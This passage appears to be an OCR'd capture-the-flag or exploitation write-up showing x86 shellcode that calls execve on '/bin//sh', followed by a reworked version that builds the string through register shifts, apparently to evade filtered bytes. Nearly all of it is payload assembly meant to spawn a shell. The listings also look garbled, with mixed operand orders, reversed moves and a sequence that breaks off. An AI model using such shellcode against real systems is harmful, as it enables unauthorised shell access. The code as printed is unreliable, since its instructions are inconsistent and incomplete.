 doing some adjusting for the 2 commands that are only 1 byte

```
31 c0                 xor    eax,eax
50                    push   eax
90                    nop
68 2f 2f 73 68        push   0x68732f2f
68 2f 62 69 6e        push   0x6e69622f
89 e3                 mov    esp,ebx
89 c1                 mov    eax,ecx
89 c2                 mov    eax,edx
b0 0b                 mov    0xb,al
cd 80                 int    0x80
31 c0                 xor    eax,eax
40                    inc    eax
90                    nop
cd 80                 int    0x80
```
now the tricky part is the big chunk of push we need to change. what we could do is put it in eax after clearing it, input 2 bytes, shift those 2 bytes, put the next 2 bytes, shift the whole thing, rinse and repeat, until we have the whole thing and push it. did some editing.
```
xor    %eax,%eax
xor    %ecx,%ecx
push   %eax
nop
xor    %eax,%eax
mov    cl,0x68
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x73
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x2f
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x2f
add    %eax,%ecx
push   %eax
nop
xor    %eax,%eax
mov    %cl,0x6e
add    %eax,%ecx
shl    %eax,1
```